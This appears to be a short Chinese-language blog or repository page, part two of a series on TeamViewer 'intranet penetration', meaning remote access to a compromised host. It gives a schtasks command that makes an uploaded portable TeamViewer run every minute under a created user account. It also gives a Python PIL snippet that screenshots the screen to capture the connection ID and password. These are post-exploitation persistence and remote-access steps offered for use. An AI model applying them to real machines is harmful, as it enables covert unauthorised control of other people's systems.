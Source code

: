 ```yaml
---
title: Teamviewer内网穿透（二）
id: zhfly3456
---
```


# Teamviewer内网穿透（二）

上传一个单文件版本的teamviewer

再通过下面指令运行起来

```
schtasks /create /sc minute /mo 1 /tn “cat” /tr TV的路径  /ru 创建的用户名 /rp 创建的密码 
```

使用PIL截图获取连接ID密码：

```
from PIL import ImageGrab
im = ImageGrab.grab()
im.save('screenshot.png') 
```